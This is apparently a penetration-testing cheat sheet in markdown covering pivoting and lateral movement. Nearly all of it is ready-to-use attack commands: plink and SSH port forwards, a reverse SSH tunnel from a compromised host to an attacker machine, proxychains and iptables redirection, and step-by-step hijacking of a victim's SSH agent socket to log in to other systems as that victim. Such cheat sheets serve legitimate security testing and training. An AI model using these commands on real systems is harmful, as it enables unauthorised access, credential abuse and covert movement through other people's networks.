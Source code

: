 ### <--- Pivoting ---> ###

#### Plink Remote Port Forwarding ####

```plink -l $user -pw $password $attacking_machine_ip -R $attacker_port_to_open:127.0.0.1:$victim_port```

```plink.exe -R "remote port":127.0.0.1:"local port" root@"ipaddress"```

```$command 127.0.0.1:$attacker_port```

#### SSH Remote Port Forwarding ####

```ssh user@target_ip -R $remote_port:127.0.0.1:$local_port```

#### SSH Local Port Forwarding ###

```ssh user@target_ip -L $initiating_ip:$initiating_port:$target_ip:$target_port```

#### SSH Dynamic Port Forwarding ###

##### Create a Local SOCKS4 Proxy ####

*Example: ssh -D 8080 root@pwned.com*

```ssh -D $local_proxy_port -p $remote_port $target```

#### Using Proxychains ####

##### Create a reverse SSH tunnel to attacker from compromised host #####

```ssh -f -N -R 2222:127.0.0.1:22 root@kali```

#####  Create a dynamic application-level port forward on port 8080 on attacking machine #####

```ssh -f -N -D 127.0.0.1:8080 -p 2222 user@local```

##### Set proxychains  #####

```nano /etc/proxychains.conf```

```socks4 127.0.0.1 8080```

#### IPTables ####

*NOTE: https://www.andreafortuna.org/2019/05/08/iptables-a-simple-cheatsheet/*

```iptables -t nat -A PREROUTING -p tcp -d 1.2.3.4 --dport 422 -j DNAT --to 192.168.0.100:22```

### <--- Lateral Movement ---> ###

#### SSH Hijack: Abusing SSH Agents to intercept the "SSO Like Token"  ####

**NOTE: https://xorl.wordpress.com/2018/02/04/ssh-hijacking-for-lateral-movement/**

##### Check logins #####

```w```

```cd /var/logs```

```grep -R -i root . -a```

```cd /etc/ssh```

```nano ssh_config```

**Is 'ForwardAgent == yes'?**

```cd /tmp```

*NOTE: Remove existing ssh-* files from grepping to remove active sessions*

```watch -n 1 "ls | grep -v 'ssh-$?\|ssh-$?'"```

*NOTE:  Wait for new event to appear*

```cd ssh-new-event```

```ls```

```SSH_AUTH_SOCK=agent-$? ssh root@target -p 2222```

*NOTE: Try without port two. This example is copied from Ippsec.*

#### SSH Hijack 2 ####

*NOTE: https://xorl.wordpress.com/2018/02/04/ssh-hijacking-for-lateral-movement/*

##### Attacker finds the SSHd process of the victim #####

```ps uax|grep sshd```
 
##### Attacker looks for the SSH_AUTH_SOCK on victim's environment variables #####

```grep SSH_AUTH_SOCK /proc/<pid>/environ```
 
##### Attacker hijack's victim's ssh-agent socket #####

```SSH_AUTH_SOCK=/tmp/ssh-XXXXXXXXX/agent.XXXX ssh-add -l```
 
##### Attacker can login to remote systems as the victim #####

```ssh remote_system -l victim```
